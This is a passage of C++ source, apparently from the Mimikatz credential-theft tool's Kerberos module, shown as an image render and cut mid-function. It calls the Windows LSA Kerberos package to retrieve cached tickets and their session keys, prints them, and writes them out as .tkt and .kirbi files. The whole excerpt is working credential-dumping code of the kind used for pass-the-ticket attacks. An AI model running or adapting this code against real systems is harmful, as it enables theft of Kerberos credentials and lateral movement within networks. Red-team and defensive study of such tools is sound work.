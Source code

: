 ```cpp
                    ticket.StartTime = *(PFILETIME)&pKerbRetrieveResponse->Ticket.StartTime;
                    ticket.EndTime = *(PFILETIME)&pKerbRetrieveResponse->Ticket.EndTime;
                    ticket.RenewUntil = *(PFILETIME)&pKerbRetrieveResponse->Ticket.RenewUntil;

                    ticket.KeyType = ticket.TicketEncType = pKerbRetrieveResponse->Ticket.SessionKey.KeyType;
                    ticket.Key.Length = pKerbRetrieveResponse->Ticket.SessionKey.Length;
                    ticket.Key.Value = pKerbRetrieveResponse->Ticket.SessionKey.Value;

                    ticket.TicketFlags = pKerbRetrieveResponse->Ticket.TicketFlags;
                    ticket.Ticket.Length = pKerbRetrieveResponse->Ticket.EncodedTicketSize;
                    ticket.Ticket.Value = pKerbRetrieveResponse->Ticket.EncodedTicket;

                    kprintf(L"   * Ticket Encryption Type & kvno not representative at screen\n");
                    if (isNoCache && isExport)
                        kprintf(L"   * NoCache: exported ticket may vary with informations at screen\n");
                    kuhl_m_kerberos_ticket_display(&ticket, TRUE, FALSE);
                    kprintf(L"\n");

                    if (isTkt)
                        if (ticketname = kuhl_m_kerberos_generateFileName_short(&ticket, L"tkt"))
                        {
                            if (kull_m_file_writeData(ticketname, pKerbRetrieveResponse->Ticket.EncodedTicket, pKerbRetrieveResponse->Ticket.EncodedTicketSize))
                                kprintf(L"\n   * TKT to file       : %s", ticketname);
                            else PRINT_ERROR_AUTO(L"kull_m_file_writeData");
                            LocalFree(ticketname);
                        }
                    if (isExport)
                        filename = kuhl_m_kerberos_generateFileName_short(&ticket, MIMIKATZ_KERBEROS_EXT);

                    LsaFreeReturnBuffer(pKerbRetrieveResponse);

                    if (isExport)
                    {
                        pKerbRetrieveRequest->CacheOptions |= KERB_RETRIEVE_TICKET_AS_KERB_CRED;
                        status = LsaCallKerberosPackage(pKerbRetrieveRequest, szData, (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
                        if (NT_SUCCESS(status))
                        {
                            if (NT_SUCCESS(packageStatus))
                            {
                                if (kull_m_file_writeData(filename, pKerbRetrieveResponse->Ticket.EncodedTicket, pKerbRetrieveResponse->Ticket.EncodedTicketSize))
                                    kprintf(L"\n   * KiRBi to file     : %s", filename);
                                else PRINT_ERROR_AUTO(L"kull_m_file_writeData");
                                LsaFreeReturnBuffer(pKerbRetrieveResponse);
                            }
                            else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage / Package : %08x\n", packageStatus);
                        }
                        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage : %08x\n", status);
                    }
                    if (filename)
                        LocalFree(filename);
                }
                else if (packageStatus == STATUS_NO_TRUST_SAM_ACCOUNT)
                    PRINT_ERROR(L"\'%wZ\' Kerberos name not found!\n", &pKerbRetrieveRequest->TargetName);
```